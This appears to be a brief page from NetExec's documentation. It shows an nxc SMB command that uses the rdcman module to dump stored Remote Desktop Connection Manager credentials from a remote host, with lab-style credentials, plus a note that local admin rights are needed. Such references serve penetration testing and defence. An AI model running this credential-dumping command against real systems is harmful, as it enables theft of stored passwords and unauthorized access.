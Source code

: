 ```yaml
---
description: Dump Remote Desktop Connection Manager credentials
---
```


# 🆕 Dump Remote Desktop Connection Manager

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! -M rdcman
```

